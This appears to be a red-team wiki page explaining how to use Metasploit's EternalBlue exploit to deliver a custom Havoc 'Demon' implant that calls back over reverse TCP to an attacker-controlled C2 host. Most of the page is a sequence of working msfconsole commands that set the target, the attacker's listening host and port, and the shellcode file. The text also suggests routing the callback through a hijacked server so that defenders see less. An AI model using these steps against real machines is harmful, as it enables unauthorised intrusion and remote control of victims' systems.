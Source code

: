 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - havoc
  - windows
credits:
  - p4p1
---
```

# Havoc

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

Unlike [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Exploit Vulnerable Service/Cobalt Strike|cobalt strike]] exploitation setup. This particular payload type only requires a custom generated implant in this case **Havoc's Demon Agent**. We'll be using eternablue as an example.

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/custom/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```

Set the target's IP address.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts <target_IP>
```

Specify the C2's IP address and port. The best part about this is you can simply set the custom implant and use any SSH server (or hijacked server) as the only indicator of compromise that the defenders will look at the traces.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost <attacker_IP>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport <attacker_PORT>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set shellcode_file /local/path/to/demon.x64.bin
```

Exploit the target and you should receive an agent callback on your C2.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

---
## References

### p4p1

- [p4p1: Extending Havoc payloads through metasploit](https://leosmith.wtf/blog/metasploit-and-havoc.html)